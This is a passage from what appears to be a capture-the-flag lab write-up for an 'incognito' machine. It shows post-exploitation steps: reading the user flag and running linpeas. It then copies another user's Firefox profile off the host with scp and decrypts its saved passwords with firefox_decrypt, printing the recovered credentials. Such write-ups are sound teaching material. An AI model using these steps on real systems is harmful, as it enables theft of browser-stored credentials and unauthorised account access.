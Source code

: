 We can read `user.txt` now:

```
tommy@incognito:~$ cat user.txt
7ba840222ecbdb57af4d24eb222808ad
```

Let's use `linpeas` to search any PE vector:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424133902.png)

We got another user called `carlJ`, let's check if we can visualize its home:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424133944.png)

We got a `.mozilla` folder, with this, we can use a tool called `firefox-decrypt`

![](gitbook/cybersecurity/images/Pasted%20image%2020250424134900.png)

Let's clone it to our machine and do the following:

```bash
git clone https://github.com/unode/firefox_decrypt
scp -r tommy@IP:/home/carlJ/.mozilla/firefox .
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250424135714.png)

We get prompt with a password, we can try some basic password and notice the password for this is:

```
password1
```

```python
python3 firefox_decrypt.py ../firefox
Select the Mozilla profile you wish to decrypt
1 -> 45ir4czt.default
2 -> 0ryxwn4c.default-release
2

Primary Password for profile ../firefox/0ryxwn4c.default-release:

Website:   https://incognito.com
Username: 'dev'
Password: 'Pas$w0RD59247'
```

We got credentials, let's change our ssh session:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424140529.png)

We can now visualize the `mailing` directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424143437.png)

We got a binary named `smail` in here, let's check the strings:
